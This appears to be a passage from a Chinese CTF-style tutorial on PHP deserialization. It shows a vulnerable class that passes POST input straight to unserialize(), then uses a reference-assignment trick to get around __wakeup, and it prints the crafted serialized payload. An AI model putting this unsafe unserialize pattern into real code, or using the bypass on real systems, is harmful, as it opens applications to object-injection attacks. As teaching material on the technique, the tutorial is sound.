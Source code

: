 输出:

```
123
```

可以看到这里我们虽然最初$a=’11’，但由于我们通过$x=&$a使两个变量同时指向同一个内存地址了，所以使$x=’123’也导致$a=’123’了。

举个例子：

```
<?php

class KeyPort{
    public $key;

    public function __destruct()
    {
        $this->key=False;
        if(!isset($this->wakeup)||!$this->wakeup){
            echo "You get it!";
        }
    }

    public function __wakeup(){
        $this->wakeup=True;
    }

}

if(isset($_POST['pop'])){

    @unserialize($_POST['pop']);

}
```

可以看到如果我们想触发echo必须首先满足:

```
if(!isset($this->wakeup)||!$this->wakeup)
```

也就是说要么不给wakeup赋值，让它接受不到$this->wakeup，要么控制wakeup为false，但我们注意到KeyPort::__wakeup()，这里使$this->wakeup=True;，我们知道在用unserialize()反序列化字符串时，会先触发__wakeup()，然后再进行反序列化，所以相当于我们刚进行反序列化$this->wakeup就等于True了，这就没办法达到我们控制wake为false的想法了

因此这里的难点其实就是这个wakeup()绕过，我们可以使用上面提到过的引用赋值的方法以此将wakeup和key的值进行引用，让key的值改变的时候也改变wakeup的值即可

```
<?php

class KeyPort{
    public $key;

    public function __destruct()
    {
    }

}

$keyport = new KeyPort();
$keyport->key=&$keyport->wakeup;
echo serialize($keyport); 
#O:7:"KeyPort":2:{s:3:"key";N;s:6:"wakeup";R:2;}
```
